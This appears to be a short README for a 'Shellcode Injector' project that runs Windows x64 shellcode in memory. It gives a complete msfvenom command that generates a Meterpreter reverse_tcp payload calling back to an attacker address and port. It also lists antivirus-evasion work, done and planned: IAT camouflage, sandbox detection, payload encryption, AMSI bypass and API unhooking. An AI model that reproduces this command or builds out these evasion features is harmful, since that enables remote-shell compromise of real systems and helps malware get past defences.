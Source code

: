 # Shellcode Injector
### instructions
1. Gen your msfvenom shellcode :
`msfvenom -platform windows --arch x64 -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.67 LPORT=4444 -f c --var-name=wannabe`
2. Put your shellcode in the `wannabe` variable.

### UPDATES 
- Added IAT camouflage
- Added Force loading kernel32.dll
- More to come.. need to bypass runtime...

### To do
- Add Sanbox detection (behavioral evasion)
- Add payload encryption and decryption (static bypass)
- Bypass execution (amsi + api unhooking)
- Get shellcode from exe file and saving it in the var
- UI

### Warning
This does not bypass AV as of now, we did not implement anything for it. If you want to contribute and add it, feel  free to do so.
This is simply to play with memory allocation and execution. 

